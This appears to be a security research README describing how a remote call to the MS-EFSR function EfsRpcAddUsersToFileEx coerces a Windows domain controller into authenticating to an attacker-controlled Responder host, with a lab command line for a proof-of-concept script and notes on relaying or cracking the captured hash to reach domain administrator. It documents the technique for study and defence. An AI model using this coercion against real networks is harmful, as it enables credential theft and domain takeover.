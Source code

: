 # MS-EFSR - Remote call to EfsRpcAddUsersToFileEx (opnum 15)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **SMB Named pipes**: `\pipe\lsarpc`, `\pipe\efsrpc`

 - **Function name**: [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e)

 - **Function operation number**: `15`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\lsarpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcAddUsersToFileEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcAddUsersToFileEx(
    [in] handle_t binding_h,
    [in] DWORD dwFlags,
    [in, unique] EFS_RPC_BLOB* Reserved,
    [in, string] wchar_t* FileName,
    [in] ENCRYPTION_CERTIFICATE_LIST* EncryptionCertificates
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **dwFlags**: This MUST be set to a bitwise OR of 0 or more of the following flags. The descriptions of the flags are specified in the following table. If the `EFSRPC_ADDUSERFLAG_REPLACE_DDF` flag is used, then the EncryptionCertificates parameter MUST contain exactly one certificate.

| Name | Value |
|---|---|
| `EFSRPC_ADDUSERFLAG_ADD_POLICY_KEYTYPE` | `0x00000002`
| `EFSRPC_ADDUSERFLAG_REPLACE_DDF` | `0x00000004` |


 - **Reserved**: This parameter is not used. It MUST be set to NULL by the client and ignored by the server.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **EncryptionCertificates**: A list of certificates, represented by an ENCRYPTION_CERTIFICATE_LIST structure, which are to be given access to the object.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcAddUsersToFileEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e